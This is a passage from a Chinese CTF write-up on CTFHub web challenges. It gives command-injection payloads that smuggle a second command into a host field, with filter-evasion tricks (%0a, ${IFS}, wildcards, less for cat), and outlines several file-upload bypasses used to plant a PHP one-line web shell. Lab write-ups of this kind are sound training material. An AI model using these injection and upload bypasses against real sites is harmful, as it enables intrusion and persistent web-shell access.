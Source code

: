 flag被注释
#### 过滤运算符
这题好像也没用到运算符……  
先ls看文件名再cat
payload: `www.baidu.com;cat flag_187641964115100.php`
#### 综合过滤练习
这个正则表达式过滤了5个符号和3个单词:
|
&   
;   
空格   
/   
cat、flag、ctfhub  
没有  `分号,管道符,and符号`  我们就不能执行多行命令,可以用`%0a`绕过,表示换行   
空格可用`${IFS}`绕过  
过滤`cat`可以用`less`代替  
flag可以用`*`通配符匹配  
payload: `127.0.0.1%0acd${IFS}*here%0aless${IFS}*0.php`  
flag在注释中  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016183836.png)
### 文件上传
#### 无验证
上传一句话木马,用蚁剑连接
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016195104.png)
#### 前端验证
禁用js即可
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016195618.png)
蚁剑连接  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016195822.png)
#### MIME绕过
bp抓包,修改`Content-Type:`为`image/png`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016200324.png)
即可成功上传`.php`后缀的木马
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016200101.png)
蚁剑连接  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016200509.png)
#### 00截断
bp抓包,修改文件名为`c.php%00.png`,修改url为`?road=/var/www/html/upload/c.php%00`  
低版本php会忽略`%00`后的内容
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016202217.png)
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016200731.png)
#### 双写后缀
bp抓包,修改文件名为`c.pphphp`  
删去一个`php`后剩下的字符又组合出了`php`
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016203137.png)
#### 文件头检查
上传一个图片马`mm.png`,bp抓包修改文件名为`mm/php`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016204908.png)
#### .htaccess
先上传一个`.htaccess`文件  
内容为
```http
```